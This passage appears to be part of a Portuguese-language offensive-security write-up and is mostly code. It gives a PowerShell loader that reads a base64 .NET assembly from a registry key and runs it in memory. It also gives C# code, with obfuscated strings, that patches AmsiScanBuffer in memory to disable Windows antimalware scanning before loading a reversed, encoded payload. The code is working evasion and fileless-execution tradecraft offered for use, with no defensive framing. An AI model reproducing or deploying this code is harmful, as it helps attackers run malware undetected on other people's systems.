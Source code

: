 ### Carregar o código na memória

Código do PowerShell responsável por carregar o assembly em memória e executá-lo.

```powershell
# Carregamos o conteúdo da chave do registro
$assemblyBase64 = (Get-ItemProperty HKCU:\Software\Payload\).Payload

# Decodificamos a string Base64 para obter os bytes do assembly
$assemblyBytes = [Convert]::FromBase64String($assemblyBase64)

# Carregamos o assembly na memória
$assembly = [System.Reflection.Assembly]::Load($assemblyBytes)

# Invocamos o ponto de entrada do assembly
$entryPoint = $assembly.EntryPoint
$entryPoint.Invoke($null, $null)
```
## Convertendo tudo em base64

Aqui vamos salvar o `Patch-AMSI` e o código do powershell responsável pela execução do assembly na memória, em um arquivo `Ps1`.

```powershell
$data = @"
using System;
using System.Runtime.InteropServices;
using System.Threading;

public class Program
{
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UInt32 dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static void Run()
    {
        IntPtr lib = LoadLibrary("a"+"m"+"si."+"dll");
        IntPtr amsi = GetProcAddress(lib, "Am"+"s"+"iScan"+"B"+"uffer");
        IntPtr final = IntPtr.Add(amsi, 0x95);
        uint old = 0;
        VirtualProtect(final, (UInt32)0x1, 0x40, out old);

        Console.WriteLine(old);
        byte[] patch = new byte[] { 0x75 };

        Marshal.Copy(patch, 0, final, 1);

        VirtualProtect(final, (UInt32)0x1, old, out old);
    }
}
"@

Add-Type -TypeDefinition $data -Language CSharp
[Program]::Run()

$text = ((Get-ItemProperty HKCU:\Software\Payload\).Payload)
$text = -join $text[-1..-$text.Length]

[AppDomain]::CurrentDomain.Load([Convert]::FromBase64String($text)).EntryPoint.Invoke($Null, $Null)
```
